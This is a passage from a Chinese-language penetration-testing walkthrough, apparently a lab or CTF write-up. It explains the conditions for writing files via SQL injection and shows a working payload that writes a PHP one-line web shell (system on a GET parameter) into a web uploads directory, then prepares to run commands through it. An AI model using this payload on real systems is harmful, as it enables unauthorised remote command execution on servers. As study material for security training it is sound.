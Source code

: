 接下来使用ssh连接尝试，连接成功！

![image-20240622174810593](./imgs/image-20240622174810593.png)

### 一句话木马

> 实际上，注入时能写入文件的前提有两点：
>
> 1.数据库secure_file_priv参数为空，即我们具有写的权限。
>
> 2.需要知道写入文件位置的绝对路径。之前进行目录爆破的时候我们看到了目录uploads，这个目录很可能可以写入。

```bash
1" and 1=2  union select "<?php system($_GET['saury']); ?>",2,3 into outfile "/var/www/html/uploads/shell.php" -- -
```



![image-20240622175245518](./imgs/image-20240622175245518.png)



好像写入成功，通过`saury`参数试试看能否执行命令，
